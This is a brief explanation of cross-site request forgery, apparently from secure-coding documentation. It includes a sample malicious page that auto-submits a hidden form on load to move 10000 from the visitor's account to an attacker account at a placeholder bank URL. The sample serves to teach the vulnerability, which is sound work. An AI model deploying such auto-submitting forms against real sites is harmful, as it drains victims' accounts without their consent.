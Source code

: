 CSRF vulnerabilities occur when attackers can trick a user to perform sensitive authenticated operations on a web application without his consent.

----
<body onload="document.forms[0].submit()">
<form>
<form action="http://mybank.com/account/transfer_money" method="POST">
    <input type="hidden" name="accountNo" value="attacker_account_123456"/>
    <input type="hidden" name="amount" value="10000"/>
    <input type="submit" value="Steal money"/>
</form>
----
If an user visits the attacker's website which contains the above malicious code, his bank account will be debited without his consent and notice.

